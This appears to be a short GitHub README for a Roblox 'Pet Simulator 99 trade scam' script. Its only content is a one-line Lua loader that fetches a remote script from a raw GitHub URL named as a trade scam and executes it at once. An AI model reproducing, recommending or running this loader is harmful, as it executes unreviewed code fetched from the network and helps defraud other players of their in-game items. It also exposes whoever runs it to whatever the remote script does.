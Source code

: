 # Ps99-trade-scamm
loadstring(game:HttpGet("https://raw.githubusercontent.com/psxscripter21/PS99-TradeScam/main/PS99%20TRADE%20SCAM))()
